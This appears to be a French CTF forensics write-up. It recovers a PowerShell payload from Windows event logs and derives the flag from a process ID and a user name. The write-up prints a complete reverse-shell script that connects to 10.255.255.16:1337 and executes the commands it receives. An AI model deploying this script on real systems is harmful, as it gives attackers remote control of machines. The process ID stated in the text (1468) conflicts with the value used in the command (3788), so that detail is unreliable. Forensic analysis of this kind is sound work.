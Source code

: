 # Forensics / Weird Shell 

## Challenge
Un autre utilisateur a un comportement similaire à La gazette de Windows (catégorie intro). Mais cette fois, pour retrouver ce qui a été envoyé à l'attaquant il faudra peut-être plus de logs.

## Inputs
- [Microsoft-Windows-PowerShell4Operational.evtx](./Microsoft-Windows-PowerShell4Operational.evtx)
- [Security.evtx](./Security.evtx)


## Solution
Like in the Intro challenge `La gazette de Windows`, we use https://github.com/williballenthin/python-evtx to extract the data from both logs:
```console
$ python3 evtx_dump.py Microsoft-Windows-PowerShell4Operational.evtx > ms.xml
$ python3 evtx_dump.py Security.evtx > sec.xml
```

Looking at the Microsoft events log, we found the suscipcious `PAYLOAD.PS1` Powershell script below:
```
<EventData><Data Name="MessageNumber">1</Data>
<Data Name="MessageTotal">1</Data>
<Data Name="ScriptBlockText">do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL&gt; ')
    $StreamWriter.Flush()
}
WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}`n"
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2&gt;&amp;1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()
</Data>
<Data Name="ScriptBlockId">2354b750-2422-42a3-b8c2-4fd7fd36dfe7</Data>
<Data Name="Path">D:\PAYLOAD.PS1</Data>
</EventData>
```

We see that the flag is encoded as follow, using the `process ID` and the current `Domain\UserName`:
```console
WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}`n"
```

The `process ID` is given by the Microsoft event itself: 1468. We dont have the `Domain\UserName`, only the `UserID = "S-1-5-21-3727796838-1318123174-2233927406-1107"`, which we can map to `Domain\UserName="FCSC\cmaltese"` in the Security log:
```
<EventData><Data Name="TargetUserSid">S-1-5-21-3727796838-1318123174-2233927406-1107</Data>
<Data Name="TargetUserName">cmaltese</Data>
<Data Name="TargetDomainName">FCSC</Data>
```

So all we have to do is to replace both values in the powershell command above like so:
```console
$ pwsh
└─PS> "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(("3788"+"FCSC\cmaltese").ToString()))))).Replace('-', '').ToLower())}`n"
FCSC{21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa}
```

## Flag
FCSC{21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa}
